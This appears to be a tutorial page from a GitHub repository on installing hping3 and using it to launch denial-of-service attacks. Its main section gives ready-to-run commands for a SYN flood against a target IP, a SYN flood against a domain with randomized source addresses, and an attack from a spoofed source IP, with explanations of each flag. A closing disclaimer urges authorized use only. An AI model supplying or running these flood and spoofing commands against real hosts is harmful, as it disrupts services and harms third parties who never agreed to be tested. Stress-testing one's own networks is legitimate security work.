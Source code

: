 ## Installation of Hping3

Hping3 can be installed on various Linux distributions. Here's how you can install it:

### Debian and Ubuntu Installation

1. Open a terminal.
2. Use the following command to install hping3:
    
    sudo apt install hping3 -y
    

### CentOS or RedHat Installation

1. Open a terminal.
2. Install hping3 using the following command:
    
    sudo yum -y install hping3
    

## Using Hping3 for DoS

Once hping3 is installed, you can use it to perform a DoS attack. Here's a step-by-step guide:

1. Open a terminal.
2. To launch a simple DoS attack, use the following command:
    
    sudo hping3 -S --flood -V -p 80 TARGET_IP
    
    - -S: specifies SYN packets.
    - --flood: sends packets as fast as possible, ignoring replies.
    - -V: provides verbose output.
    - -p 80: targets port 80, but this can be replaced with the desired port.
    - TARGET_IP: replace this with the IP address of your target.
3. To launch a SYN flood attack against a domain, use:
    
    sudo hping3 DOMAIN_NAME -q -n -d 120 -S -p 80 --flood --rand-source
    
4. If you wish to launch an attack from a fake IP address, use:
    
    sudo hping3 -a FAKE_IP TARGET_IP -S -q -p 80
    

## Conclusion

While hping3 is a powerful tool for understanding DoS attacks and stress testing, it's essential to use it responsibly and ethically. Unauthorized attacks can lead to severe legal consequences. Always ensure you have permission before testing any network or system. Remember, the primary purpose of tools like hping3 is to enhance security, not exploit it.

**Credit:** This information was adapted from an excellent guide on [HackBlue.org](https://hackblue.org/pages/dos_attacks_using_hping3.html). Be sure to check out the original post for more details.

# UDP and TCP Packet Crafting Techniques using `hping3`
